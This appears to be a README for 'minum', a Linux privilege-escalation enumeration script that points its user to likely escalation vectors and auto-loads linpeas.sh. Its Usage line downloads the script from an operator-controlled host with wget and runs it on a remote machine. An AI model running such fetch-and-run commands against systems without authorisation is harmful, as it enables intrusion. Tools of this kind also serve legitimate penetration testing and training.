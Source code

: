 # minum : Minimal Enumeration Code

This enumeration for privilege escalation tool, unlike many others, is built towards the idea of finding the top most relevant privilege escalation vectors for its user.
The idea is to prevent throwing a lot of things at the user and let him begin searching for a needle in a haystack.
Instead, it will ask you for your preferable routes throughout its running and will present to the user only the interesting stuff.
Letting you spend more time on exploiting and less time on reading tons of text all over the place.
At the end it will also load for you linpeas.sh automatically in case you want an indepth lookout.

Have fun, and use my tool for good purposes! Educational purposes ONLY !!

P.S

Have some suggestions? Leave an issue and we will be able to look at it and make modifications.

Cheers!

## Usage

You can download the script to the remote machine and run it for you automatically by using:
`wget <my_ip>:8000/minlinum.sh; chmod +x minlinum.sh; ./minlinum.sh`
